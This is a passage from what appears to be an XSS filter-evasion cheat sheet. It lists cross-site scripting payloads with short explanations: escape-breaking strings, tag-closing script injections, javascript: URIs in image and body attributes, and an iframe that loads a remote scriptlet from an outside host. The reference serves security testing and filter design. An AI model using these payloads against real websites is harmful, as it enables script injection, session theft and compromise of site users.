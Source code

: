 ## Double Open Angle Brackets

Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won't:

```html
<iframe src=http://xss.rocks/scriptlet.html <`
```

## Escaping JavaScript Escapes

When the application is written to output some user information inside of a JavaScript like the following: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>` and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this gets injected it will read `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:

```html
`\";alert('XSS');//`
```

An alternative, if correct JSON or Javascript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:

```html
</script><script>alert('XSS');</script>
```

## End Title Tag

This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

```html
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

## INPUT Image

```html
<input type="IMAGE" src="javascript:alert('XSS');" />
```

## BODY Image

```html
<body background="javascript:alert('XSS')"></body>
```

## IMG Dynsrc

```html
<img DYNSRC="javascript:alert('XSS')" />
```
